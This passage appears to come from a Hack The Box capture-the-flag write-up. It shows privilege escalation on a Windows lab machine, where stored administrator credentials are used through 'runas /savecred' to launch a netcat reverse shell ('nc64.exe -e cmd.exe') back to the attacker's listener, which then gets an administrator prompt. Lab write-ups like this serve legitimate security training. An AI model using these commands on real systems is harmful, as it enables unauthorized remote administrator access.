 ```shell
01/17/2021  12:09 PM            27,136 nc.exe
01/17/2021  12:39 PM            45,272 nc64.exe
               2 File(s)         72,408 bytes
               2 Dir(s)  16,772,706,304 bytes free
```
Then run the binary using `runas`.
```
C:\Users\security\Documents>runas /user:ACCESS\Administrator /savecred "nc64.exe -e cmd.exe 10.10.14.30 9998"
```
Catch the shell in my netcat listener.
```bash
─[us-dedivip-1]─[10.10.14.30]─[htb-jib1337@htb-0mgl0gm8pu]─[~/smb]
└──╼ [★]$ nc -lvnp 9998
listening on [any] 9998 ...
connect to [10.10.14.30] from (UNKNOWN) [10.129.84.186] 49160
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
access\administrator
```
